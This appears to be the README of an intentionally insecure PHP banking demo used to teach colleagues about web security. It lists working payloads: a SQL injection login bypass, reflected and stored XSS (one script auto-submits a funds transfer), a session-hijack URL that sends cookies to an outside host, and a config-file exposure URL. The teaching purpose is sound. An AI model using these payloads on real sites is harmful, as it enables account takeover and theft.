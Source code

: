 # Crappy bank website

NOTICE! THIS IS A REPO FILLED WITH BAD PRACTICES AND IT WAS USED FOR A DEMO TO MY COLLEGUES. PLEASE DO NOT - I REPEAT - DO NOT USE THIS CODE ANYWHERE! 

## Before you start
Please first import the test data in the db.sql
To run the app just use the php command: `php -S localhost:8080`

Please note, Google Chrome uses an xss auditor. Really nice, but to get the hang of this, please disable it while testing with the following command: 
`/Applications/Google\ Chrome.app/Contents/MacOS/Google\ Chrome  --disable-xss-auditor`

# Hacks

## SQL Injection in login
`swijnberg' OR '1'='1`

## XSS account info
`http://localhost:8080/secret.php?page=account-info&account=NL15RABO037592641%3Cscript%3Ealert(123)%3C/script%3E`

## ID Enummeration account-info
You are able to ennumerate account id's and see other peoples account info.

## Funny stored XSS that drains the account of the one viewining it
```
<script>
document.getElementById(\'transferForm\').elements[0].value = \'NL15RABO037592641\';
document.getElementById(\'transferForm\').elements[1].value = \'1000000\';
document.getElementById(\'transferForm\').elements[2].value = \'Pwned!\';
document.getElementById(\'transferForm\').elements[3].click();</script>
```

## Session Hijack 
`http://localhost:8080/secret.php?name=Stef%3Cscript%3Edocument.location=%27http://somewhere.com/stef/kek-session.php?%27%2Bdocument.cookie;%3C/script%3E`

## arbitrairy file exposure / execution
`http://localhost:8080/secret.php?page=config.ini&account=NL15RABO037592641`
